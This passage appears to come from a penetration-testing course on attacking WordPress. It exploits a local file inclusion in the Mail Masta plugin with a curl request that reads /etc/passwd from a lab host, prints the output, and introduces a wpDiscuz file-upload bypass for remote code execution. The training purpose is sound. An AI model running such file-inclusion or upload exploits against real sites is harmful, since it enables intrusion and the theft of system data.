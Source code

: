As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitization. Using this, we can include arbitrary files on the webserver. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`.

Attacking WordPress

```shell-session
swmpdnky@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

#### Vulnerable Plugins - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. More on the mime type detection functions bypass can be found [here](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).
